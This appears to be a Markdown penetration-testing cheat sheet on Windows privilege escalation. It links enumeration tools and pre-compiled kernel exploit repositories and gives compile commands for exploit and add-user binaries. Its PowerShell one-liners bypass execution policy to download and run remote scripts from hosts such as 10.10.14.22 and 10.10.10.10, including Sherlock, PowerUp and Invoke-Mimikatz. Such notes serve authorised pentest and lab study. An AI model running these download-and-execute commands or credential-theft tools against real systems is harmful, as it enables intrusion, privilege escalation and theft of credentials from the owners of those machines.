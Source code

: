 ## Enumeration

* [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
* Windows Kernel Exploit: [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)
* Windows Exploits: [Sherlock](https://github.com/rasta-mouse/Sherlock)
* Windows Enumeration: [Jaws](https://github.com/411Hall/JAWS)
* Windows Enumeration: [PowerUp](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp)
* Windows Enumeration: [JollyKatz](https://github.com/LennonCMJ/pentest_script/blob/master/WindowsPE.md)

```
powershell `IEX((new-object net.webclient).downloadstring('http://10.10.14.22:8000/Sherlock.ps1')); Find-AllVulns`
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.47/PowerUp.ps1'); Invoke-AllChecks"
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');"
```

## Download & Execute

* https://github.com/740i/pentest-notes/blob/master/filetransfers.md#download-and-execute

## Kernel

* `systeminfo`

Pre-compiled exploits: 
* https://github.com/SecWiki/windows-kernel-exploits
* https://github.com/AusJock/Privilege-Escalation/tree/master/Windows
* https://github.com/abatchy17/WindowsExploits

List the updates that are installed on the machine:
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

**Compile Python exploit** into an executable:
```
python pyinstaller.py --onefile exploit.py
```

**Compile windows executable** on linux:
```
i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c
```
```
i586-mingw32msvc-gcc -o adduser.exe useradd.c
```
